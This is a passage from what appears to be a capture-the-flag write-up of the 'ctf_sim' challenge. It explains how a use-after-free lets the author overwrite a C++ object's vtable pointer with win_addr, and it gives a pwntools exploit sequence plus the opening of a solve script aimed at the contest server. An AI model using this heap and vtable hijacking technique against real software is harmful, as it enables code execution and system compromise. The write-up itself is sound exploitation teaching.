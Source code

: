 Since the chunk is treated as a `challenge*`, the assembly will try to double-deref the vptr... which is our payload from submitting the writeup.

Boom! Exploit.

If we continue running the program, a SIGSEGV occurs since it tries to dereference `0x4444434342424141` (which is `"AABBCCDD"`, but packed to 64 bits).

{% image "assets/ctf-sim-9-sigsev.jpg", "" %}

Later on, we'll use `win_addr` instead of `"AABBCCDD"` for our payload; so that when the `solve()` virtual function does its magic, it will call `win()` instead.

#### Altogether
Combining our knowledge of vtables/vpointers with a little bit of heap knowledge, we come up with the following exploit:

```py 
# downloaded[0] = new forensics;   (vptr points to forensic's vtable.)
download_chal(1, 0)

# delete downloaded[0];    (chunk is moved to tcache/fast bin. downloaded[0] itself is unchanged!)
solve_chal(0)

# Chunk is allocated-- reusing the chunk previously deallocated.
# Overwrite vptr of downloaded[0] with &(&win).
submit_writeup(p64(elf.sym['win_addr']), 0x10)

# downloaded[0]->solve() triggers double dereference (due to virtual function resolution) and calls win()!
solve_chal(0)
```

To explain the "little bit of heap knowledge", we just need to understand that C++'s `new`/`delete` behaves like C's `malloc`/`free`: `new` will allocate a chunk, and `delete` will move the chunk to a bin. There are tons of different bins (small, large, fast, unsorted). But intuitively, the next `new` with a similar chunk size will reuse the chunk, meaning we overwrite the same memory previously allocated!

This story is reflected in the code above.

* We download a challenge. This will `new` a chunk. The index and type of challenge (`forensic`, `pwn`, etc.) don't really matter, but just make sure we keep reusing the same index.
* We solve a challenge. Here we `delete` the chunk previously allocated.
* We submit a writeup. This `malloc`s a chunk and inserts a payload of `win_addr`.
  * The size to malloc can be anywhere between `0x8` (exclusive) and `0x18` (inclusive). I used `0x10` since it looks pretty.
  * Anything equal or less than `0x8` means our 8-byte payload will be cut off early. All 8 bytes are important, because the vptr machinery will be using the entire 8 bytes.
  * Anything above `0x18` will allocate a new chunk instead of reusing the previously deallocated chunk.
* We solve the same challenge as before. This triggers a call to a virtual function which double-derefs our payload (`win_addr`), calling `win()` and giving us a shell. PROFIT!

### Solve Scripts
```py
from pwn import *

binary = 'ctf_sim'

context.binary = binary
context.log_level = 'debug'

elf = ELF(binary)
rop = ROP(binary)

p = remote("tamuctf.com", 443, ssl=True, sni="ctf-sim")

```

[doublefree]: https://web.archive.org/web/20231001021419/https://heap-exploitation.dhavalkapil.com/attacks/double_free
[vtable-so]: https://stackoverflow.com/a/99341/10239789
[vtable-pablo]: https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/
[gb-vtable-cpp]: https://godbolt.org/#z:OYLghAFBqd5QCxAYwPYBMCmBRdBLAF1QCcAaPECAMzwBtMA7AQwFtMQByARg9KtQYEAysib0QXACx8BBAKoBnTAAUAHpwAMvAFYTStJg1DIApACYAQuYukl9ZATwDKjdAGFUtAK4sGIM6SuADJ4DJgAcj4ARpjE/gDspAAOqAqETgwe3r7%2ByanpAiFhkSwxcWaJdpgOGUIETMQEWT5%2BAVU1AnUNBEUR0bEJtvWNzTltwz2hfaUDFQCUtqhexMjsHOYAzKHI3lgA1CYbbk4KBMSYrIfYJhoAgje3O0wKCnvKDYwEB/FWd0leUVoeGQIAee3Be1CXySH0EAH10Ex6odfrcIW9YQQIFC9oj6nM9iA9jDzvC8UwTD9yZSACLfKzxGkPMEQgBueEaXjEe1ZqDw6D2/FQ2MEe1UBMpFj2p3QIBQSy%2BhzcSoOZjMJM%2Bewg5jMByOKo1ZKRTD1yqOqrMBKFRJ1ppVqjt5plctctBR3yZd3R7M53N5/L2UQaIq%2B4vp0oIsvlXkV%2BvNOsNX21asdbmJmIRxtTFoJQbiFuzDqVKudIFd7tpzMZKIeTxeexpsTwrMwAqJ/0BwIxpMVPweHaBIJZ4JxWGIzdbmeRG1R6Mb45b6BDuONpEhovJlsJ3c%2BkupjLXY4n6CnFKpxrMtPplbuw55HIIXNoPL5Arzy7DkojUbQMezOqPRctVtYtzUTU9/zVNcQLjNNAMnclIK3PMbRTUC0yLWDvxdBh0DdGcPSrJkZ2ZO4cRYJhQggCU%2By9CF3h7YlJS4SsSLo8EkgAOiFCBLXdAB6fid0EOUhTvLj3w2OYBKEhjPjlPNSLRCF52PXFJQAVjXAA2VjZwhdBuNQYV4mkgjBOEghROMu9DPfAAOMypQs1TFwUhoiI4BZaE4DTeD8DgtFIVBOGVSxrGlJYVkwVUNh4UgrMCryFgAaxADSNH0ThJH8zReBCjheAUEBMsSrQFjgWAYEQeUWCSOhYnISg0Dqhq4mALgzC4Pg6AIWJiogKI8tIKJQgaABPTh4pathBAAeQYWhJqS0gsAooxxBW/BzhqFtipWzBVGqGM1iCqFMB8lagSiYgJo8LBhrOPAWCmry%2BAMYAFAANTwTAAHc5qSRhXpkQQRDEdgpFB%2BQlDUYbdG6gwjBQaxrH0PAomKyAFlQJJHAEfaiou6p8b8CBXFGPxuuCKYSjKPQUjSUnKYZ/JSd6OmBm69pSa6EZPBaPQedqCYOf6OJuYmFnJe6MWZglhYFCi1Y9DOTA1h4bzfNylaCtUeztIAWm0yQ9mAZBkD2TrOK4LUwqsSw11wQgSFi7q9g8Vr6GIN25l4MrktINKMqyjgctIF6Q4CoKCqKkqEryirqogJAFX%2BAgmogFr6u98JWDWfWjZNs2Latswbd4VsXfHWVuv4MHRHEKH65hlR1BWhHSD%2B26klerWOD80ho/yzg5pjdO9lQKgxQN43TfNy3rdtiBPZz2Jff9xOFgQC4x0ofvw8jzLh%2BCzg49Kreg/SzLLo2HWY7PhOkrmfuzHvkfCqf8qFhbYg0mcSQQA
[gb-vtable-c]: https://godbolt.org/#z:OYLghAFBqd5QCxAYwPYBMCmBRdBLAF1QCcAaPECAMzwBtMA7AQwFtMQByARg9KtQYEAysib0QXACx8BBAKoBnTAAUAHpwAMvAFYTStJg1AB9U8lJL6yAngGVG6AMKpaAVxYMQAJgDMpBwAyeAyYAHLuAEaYxN4AHKQADqgKhLYMzm4e3n5JKTYCQSHhLFExXvGWmNZpQgRMxAQZ7p6%2BFphW%2BQy19QSFYZHRcRZ1DU1ZrQojvcH9JYPlAJQWqK7EyOwcAKS%2BwchuWADUmz6Ok/ioAHQIx9ibGgCCd/cEAJ4JmFhUBwBuqHjoBwgACoqK4GMgEgRiMYCAsIAtjgAhA4AehRBwAKm9MAcxHgmAoDvxiESwdUBAcksECNEFBcnk9Xu9PgdJsRXNYjgB2RFPA780ngyHQghAn51CL0JF8gXUyn1RgEYzoJh1aUPTZcgAiB2UCsE6seDyZH0wXzZHII3N5DwFgohUJhYu%2BEqlPht9ztcoS%2BqVKrV7tR6IAkgwENFCB8icRUCx5cRFfTbbLBAcsMQ8N8PsrVUxDZqdVqI1n0PmHmiDtgGO5oqq0gdUF9vngGq4xPbOnSnox3NaDgA1ABiclCjgxwYA8qFjIOJxPSAPh6Px1PjIj7gAlblasv3CvOcEJmkHPAsBL0NiCOsCLsPX7/eOK0z8VAQPUJwRihILuWqBZ9hIM0EKgIG2LwfQ/K1QK8ABWdB/xfEAjlg0sYMcBgwIXBIAFobggp9/SYBc/yRbcnnvAF8MEUwInqN9fS/H9Uz/ACgIIECwKoqDtjg/9aJiZC4M2NCMK8LwsNwnxsC4nM6mIhFAwLci/gBdNM2zYx%2BIgIsMxLMV0CYq0WM1ZFAOpDixLUktAR4gzBPgg5%2BKQ2zhPQzC00k6TfVkoiPJuKzs0I%2BTSKUjVy3RfsWwINtaBPM8L0Va8GEJCAE3wBNrAWJN7goolUFfd9FUYk9mP/EzKU8l0mElTBhMRIcRzHSdp1nCdhK1KAKKBBZvwOEjFO1ZSHy0wrP0pQy%2BrKnkKpuKqarqhrl2atdN3azqVO63r%2BuRUKjT3dE5voNMzWCVIb2y0EhUdK0ZOMQ7apg3kYJ1Y4Xp5GV%2BVul9SA%2Bx9qM0%2Bofo1Qb3QZB5LodEVjt0jT7rq9qjh8N6PTtL78qBz0BQC9AaMBhkQY9J45RYJhgggCippRgVRpuxHkdu%2B6Fy4JTQeTfkX2ggA2XqvAU5EKzR1Bfq07ZuYXHw%2BaDP6lQB4hst%2BnT1NUunrWx0xGYOGCF05lmqfZ/KoBp7rRbsrlJYF7zjBfYW6PoyDja8Tm7Nic30TV2X5e1DglloTgYN4TwOC0UhUE4RxWRWNYcW2HweFIAhNG9pYAGsQBgjR9E4SQA8TkPOF4BQQAzhOg%2B90g4FgGBEBQWMEjoaJyEoNAz3rmJkGALgvC4Pg6BpYhC4gCJc4iYJ6heTg4%2Bby8CAnBhaHH0vSCwEmjHERf0qqGws0LxfMFUKpXBpXPqXaXPaDwCJiDH5wsFzqFTwnsuqAMYAFEizAAHcJ3eQO4/4QQRBiHYFIGQghFAqHUIvXQ3cDBGBAKYYw5hz4RELpAJYqBIRpB3gXdom80j2AYE4FwzQ9CBBmMUUoehchnXSMQrI3dqGdD6BQwY3dKjki6FMMYng2G4I4d0BozCBgxDYVwuhPDhg9CEXMERSwFCR3WHoKEmANg8B9n7HOi9Q4cFULETm2FOaSAOMAZAyADidwuFwQEjgFy4EICQZCscFzOBbvQEkMcuALF4CXLQCwU5pwzr7Dg2dSAsACaQQOwdtEFyLvHROSwK7VxWAQBIh9G4QGbnXNxoRWAbF0fowxxjTHmK8JY3gHx7EZnQHof%2BwhRDiBAbU8Bahc7QNIB/K%2BCRH7qI4P7CJudtETkPqkq0jY%2Bp6IMUYkxZiLFWIgC4rJ0RHGeO8fEpY4YmDpkoD0kJYT079K0fnCwsSfFJ1IKnfZQSfCaKiUc05fjM4cC8Dc3g0S4mlweVmfu%2BDJBAA%3D